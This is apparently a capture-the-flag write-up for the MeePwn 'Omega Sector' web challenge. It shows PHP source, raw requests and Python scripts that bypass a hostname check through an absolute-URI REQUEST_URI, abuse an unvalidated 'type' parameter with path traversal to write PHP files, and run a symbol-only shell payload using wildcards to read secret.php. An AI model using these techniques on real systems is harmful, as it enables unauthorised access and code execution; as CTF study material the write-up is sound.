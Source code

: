 # Omega Sector (web, 44 solved, 140p)

This was a 2 stage web challenge.
Frist part was to get authenticated into the system.

## Authenticate

For starters we get [php source code](index.php) by finding hint in the html about `is_debug=1` parameter.
The important part is:

```php
$remote=$_SERVER['REQUEST_URI'];

if(strpos(urldecode($remote),'..'))
{
mapl_die();
}

if(!parse_url($remote, PHP_URL_HOST))
{
    $remote='http://'.$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
}
$whoareyou=parse_url($remote, PHP_URL_HOST);


if($whoareyou==="alien.somewhere.meepwn.team"){
```

After we pass this check we can authenticate.
The tricky part is that normally `REQUEST_URI` contains only the file path, not the hostname.
And if there is no hostname there, then we get into the condition and overwrite the `$remote` with our own IP.
But if we go to https://secure.php.net/manual/pl/reserved.variables.server.php and read a bit we can find:

```
Note that $_SERVER['REQUEST_URI'] might include the scheme and domain in certain cases.
```

Basically we can send request:

```
GET http://human.ludibrium.meepwn.team?human=Yes 
HTTP/1.0
Host: human.ludibrium.meepwn.team
Connection: close


```

And it will pass the check just fine.
We can do the same for `alien` and therefore get session cookies authenticated to access `omega_sector.php` and `alien_sector.php`.

We can automate this with:

```python
    from crypto_commons.netcat.netcat_commons import nc
    s = nc("138.68.228.12", 80)
    s.sendall("GET http://human.ludibrium.meepwn.team?human=Yes HTTP/1.0\r\nHost: human.ludibrium.meepwn.team\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))

    s = nc("138.68.228.12", 80)
    s.sendall("GET http://alien.somewhere.meepwn.team?alien=%40!%23%24%40!%40%40 HTTP/1.0\r\nHost: alien.somewhere.meepwn.team\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))
```

## Exploit

Once we get authenticated we can explore new parts of the system.
Both look similar - there is a textbox where we can place some input and save it.

Once we do this, we get the filepath to the resulting file, for example: `Saved in human_message/239fe816a898ca6b036c5b21970af279.human`
And we can verify, the file is there.

If we look at the POST request, we can see that we control 2 parameters -> message and type.
Type is interesting because it is set to `human` here, and it seems there is no validation.
We can change it to `php` if we want.

In fact we can go even further, because we can set it to `'/../../alien_message/somefunnyname.php'`, and save file from `human` part in `alien` part if we want to.
More importantly, we can control the filename this way.


We can automate sending payloads by:

```python
def send_alien(content, path):
    r = requests.post('http://138.68.228.12/alien_sector.php', data={'message': content, 'type': path},
                      headers={'Cookie': 'PHPSESSID=a3bdqr9r40csph3el906dphtc0'})
    print(r.text)
```


Now the last part is to actually gain RCE and execute some code, because we need to gain access to `secret.php` file.
The difficulty is that the charsets are restricted.
We run a simple charset checker script and it showed us that basically human can use only letters, digits and whitespaces, and alien can use symbols and punctation.
We can't combine them, because the files are always overwritten, so we need to create the payload from only one of those.
It's clear we won't get PHP code without `<?` so the only choice is the alien part.

We can send:

    <?= `something here` ?>

To execute some code in the system shell.
We decided to run: `/???/??? ../??????.??? > ===`.

For those unfamiliar with bash path wildcards, `/???/???` matches `/bin/cat`, `../??????.???` matched `secret.php` and `===` is actually a proper filename.
So we're actually running `/bin/cat ../secret.php > ===`, efectively copying the secret file contents.
This is of course a bit random, because matching is alphabetical and some other 3-letter binary will also match, but we don't care.

After that we can simply read contents of `alien_message/===` to get the flag: `MeePwnCTF{__133-221-333-123-111___}`
